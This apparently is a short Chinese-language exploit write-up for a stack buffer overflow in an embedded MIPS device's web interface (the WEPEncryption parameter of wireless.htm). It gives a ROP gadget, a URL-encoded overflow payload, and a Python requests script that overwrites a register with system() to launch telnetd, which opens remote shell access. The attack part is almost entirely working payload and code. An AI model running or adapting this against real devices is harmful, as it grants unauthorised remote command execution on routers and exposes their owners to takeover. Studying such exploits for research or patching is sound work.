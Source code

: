 栈

![](image/91105c09b928153c801710652cc6b519.png)

通过GDB调试发现buff为16个后四位覆盖掉了s0寄存器，可以设为system

找到合适的gadget
```c
.text:00050DE4 addiu $s2, $sp, 0x1C8+var_D8  
.text:00050DE8 move $a0, $s2  
.text:00050DEC move $t9, $s0  
.text:00050DF0 jalr $t9 ; sub_505D0
```

基地址+要跳转的地址 = payload中的地址(url编码)

```payload
http://0.0.0.0:18080/wireless.htm?WEPEncryption=AAAAAAAAAAAAAAAA%20%ed%f1%77AAAAAAAAAAAAAAAAAAAA%e4%3d%f2%77AAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBtelnetd
```

## exp

```python
import requests

ip_address = "192.168.100.2"

Headers = {
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Connection': 'keep-alive',
    'Referer': f'http://{ip_address}/setSystemWireless',
    'Upgrade-Insecure-Requests': '1'
}

session = requests.session()
data = '?WEPEncryption=' + 'A' * 0x10 + '%20%BD%F1%77' + 'B' * (0x28 - 0x10 - 0x4) + '%E4%0D%F2%77' + (0x30 - 0x28 - 0x4 + 0x1c8 - 0xd8) * 'C' + 'telnetd'
res = session.get(url=f'http://{ip_address}/wireless.htm' + data, headers=Headers)
print(res.text)
```
